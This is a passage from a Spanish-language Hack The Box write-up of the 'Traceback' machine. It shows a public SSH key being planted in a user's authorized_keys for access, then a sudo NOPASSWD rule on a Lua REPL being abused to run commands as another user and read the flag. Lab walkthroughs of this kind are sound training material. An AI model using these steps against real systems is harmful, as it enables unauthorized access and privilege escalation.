 Ahora, vamos a subir la llave pública que acabamos de generar al sistema, mediante la opción de cargar archivos en la carpeta `/home/webadmin/.ssh` y luego movemos el archivo a la carpeta `authorized_keys` con el siguiente comando

```bash
mv ssh-keys.pub authorized_keys
```

Nos conectamos por SSH a la máquina  usando nuestra llave privada

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #ssh -i ssh-keys webadmin@10.10.10.181

#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key 'ssh-keys': 

Welcome to Xh4H land 

Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ pwd /home/webadmin
```

Escribimos el comando sudo -l verificar los privilegios del usuario y encontramos que podemos ejecutar un comando como usuario `sysadmin` sin necesidad de tener la contraseña 

```bash
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

Escribimos el comando anterior y nos aparece una consola como la siguiente

```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> 
```

Nos abre una consola LUA y consultando sobre cómo ejecutar comando del sistema operativo encontramos que el comando [os.execute("")](http://lua-users.org/wiki/OsLibraryTutorial ) de la biblioteca os de LUA, muy similar a Python. De esta manera, ya obtendremos la flag de usuario

```bash
Welcome to the Luvit repl!
> os.execute("cat /home/sysadmin/user.txt")
3718d6...........................
true    'exit'  0
```

